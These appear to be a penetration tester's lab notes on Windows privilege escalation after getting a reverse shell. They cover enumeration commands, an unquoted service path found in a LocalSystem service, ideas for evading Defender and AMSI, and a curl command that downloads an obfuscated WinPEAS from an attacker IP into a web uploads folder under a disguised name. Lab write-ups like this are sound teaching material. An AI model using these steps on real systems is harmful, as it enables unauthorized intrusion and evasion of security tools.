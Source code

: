 
We have a reverse shell but but but we don't have full access to the system which means that Thomas done security works on this so we have to see how to escalate the privileges from here. Will try to run Winpeas but it might get picked up the AV.

We have the winpeas copy with obfuscated and  
https://github.com/carlospolop/PEASS-ng

Things to keep in mind:
We have the manual enumeration option.
Defender will definitely pick the copy of winpeas but unlikely to catch .bat or obfuscated .exe
version.
But main thing we have to keep in mind to bypass is AMSI will alert defender if we try to 
load any PowerShell Priv-sec check scripts.

```
whoami /priv
```

```
whoami /groups
```
![[Pasted image 20240121004602.png]]

Start by looking for non-default services:
```
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
```
![[Pasted image 20240121004855.png]]
![[Pasted image 20240121005421.png]]

As you can see that `SystemExploreHelpService` does not have quotes in the path the rings a bell to the mind that _Unquoted Service Path_ attack and escalate from here.

```
sc qc SystemExplorerHelpService
```
![[Pasted image 20240121010030.png]]

The service is running as LocalSystem which means now we have to check if we have write permission or not
```
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```
![[Pasted image 20240121010229.png]]


This means that we can create our unquoted service path exploit, but we could also perform attacks such as DLL hijacking, or even outright replacing the service executable with a malicious binary.

```
curl http://10.50.102.187/winPEASx64_ofs.exe -o C:\xampp\htdocs\resources\uploads\sardarji-win.exe
```
![[Pasted image 20240121011328.png]]

